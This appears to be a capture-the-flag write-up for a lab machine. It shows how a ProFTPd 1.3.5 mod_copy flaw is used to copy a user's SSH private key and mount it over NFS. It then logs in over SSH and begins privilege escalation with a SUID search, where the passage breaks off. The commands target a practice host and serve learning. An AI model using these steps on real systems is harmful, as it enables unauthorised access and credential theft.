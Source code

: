 
--- 
## Gain initial access with ProFTPd

1. Use Netcat to connect to the machine on the FTP port
`nc 10.10.87.210 21`
**what is the version?:** 1.3.5
2. Use searchsploit (CLI version of [exploitdb.com](https://www.exploit-db.com/))
`searchsploit ftp 1.3.5`
<pre>
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit) | exploits/linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution | exploits/linux/remote/36803.py
ProFTPd 1.3.5 - File Copy | exploits/linux/remote/36742.txt
</pre>
**How many exploits are there for ProFTPd?:** 3
3.  There is a  vulnerability in the [copy CPFR/CPTO (Copy From/Copy To)](http://www.proftpd.org/docs/contrib/mod_copy.html) commands
lets copy the ssh key to a place we can read it ourselves
`SITE CPFR /home/kenobi/.ssh/id_rsa`
<pre> 350 File or directory exists, ready for destination name </pre>
`SITE CPTO /var/tmp/id_rsa`
<pre> 250 Copy successful </pre>
now the ssh key is someplace we can get to
4. mount the /var/tmp directory to our machine so we can now retrieve that ssh key
- `ctrl+c` to exit the smb interface if you haven't already
```
sudo mkdir /mnt/kenobiNFS  
sudo mount 10.10.87.210:/var /mnt/kenobiNFS  
ls -la /mnt/kenobiNFS
```
lets get the key and use it to connect!
```
cp /mnt/kenobiNFS/tmp/id_rsa ~/Downloads
cd /Downloads
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.87.210
```
we are logged in as Kenobi!
`ls -al`
<pre> share      user.txt </pre>
5. **What is Kenobi's user flag?:**
`cat user.txt`
XXXXXXX**REDACTED**XXXXXXXXX
--- 
## Priv Esc with Path Variable Manipulation
1. lets find all the files with SUID bits
`find / -perm /4000 2>&1 | grep -v "Permission denied"`
<pre>
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo